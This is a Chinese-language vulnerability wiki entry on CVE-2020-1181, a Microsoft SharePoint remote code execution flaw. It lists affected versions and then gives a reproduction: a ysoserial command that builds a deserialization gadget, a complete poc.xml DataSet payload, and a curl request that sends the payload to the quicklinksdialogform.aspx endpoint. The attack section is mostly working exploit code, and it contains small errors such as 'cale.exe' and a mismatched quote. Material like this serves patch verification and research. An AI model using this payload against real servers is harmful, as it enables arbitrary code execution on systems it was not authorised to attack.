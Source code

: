 （CVE-2020-1181）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

`SharePoint Portal Server`
是一套门户网站解决方案，使得企业能够便捷地开发出智能的门户网站，能够无缝连接到用户、团队和知识。因此用户能够更好地利用业务流程中的相关信息，更有效地开展工作。

当`Microsoft SharePoint Server`无法正确识别和过滤不安全的`ASP.Net Web`控件时，将会存在一处远程代码执行漏洞。成功利用此漏洞的远程攻击者(需要身份验证)通过创建特制的页面，可以在`SharePoint`应用进程池的上下文中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016Microsoft SharePoint Foundation 2010 Service Pack 2Microsoft SharePoint Foundation 2013 Service Pack 1Microsoft SharePoint Server 2019

三、复现过程
------------

    ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c cale.exe

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1181)MicrosoftSharePoint远程代码执行漏洞/media/rId24.png)

替换掉poc.xml内的payload

> Poc.xml

    <DataSet>
      <xs:schema xmlns="" xmlns:xs="http://www.w3.org/2001/XMLSchema" xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" id="somedataset">
        <xs:element name="somedataset" msdata:IsDataSet="true" msdata:UseCurrentLocale="true">
          <xs:complexType>
            <xs:choice minOccurs="0" maxOccurs="unbounded">
              <xs:element name="Exp_x0020_Table">
                <xs:complexType>
                  <xs:sequence>
                    <xs:element name="pwn" msdata:DataType="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.LosFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" type="xs:anyType" minOccurs="0"/>
                  </xs:sequence>
                </xs:complexType>
              </xs:element>
            </xs:choice>
          </xs:complexType>
        </xs:element>
      </xs:schema>
      <diffgr:diffgram xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" xmlns:diffgr="urn:schemas-microsoft-com:xml-diffgram-v1">
        <somedataset>
          <Exp_x0020_Table diffgr:id="Exp Table1" msdata:rowOrder="0" diffgr:hasChanges="inserted">
            <pwn xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
            <ExpandedElement/>
            <ProjectedProperty0>
                <MethodName>Deserialize</MethodName>
                <MethodParameters>
                    <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">这里放payload</anyType>
                </MethodParameters>
                <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
            </ProjectedProperty0>
            </pwn>
          </Exp_x0020_Table>
        </somedataset>
      </diffgr:diffgram>
    </DataSet>

通过 `curl -L -v --ntlm --negotiate "https://www.0-sec.org/_layouts/15/quicklinksdialogform.aspx?Mode=Suggestion" --data "viewstate=&__SUGGESTIONSCHACHE=urlencode(poc.xml)”`

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1181)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

触发漏洞，执行命令
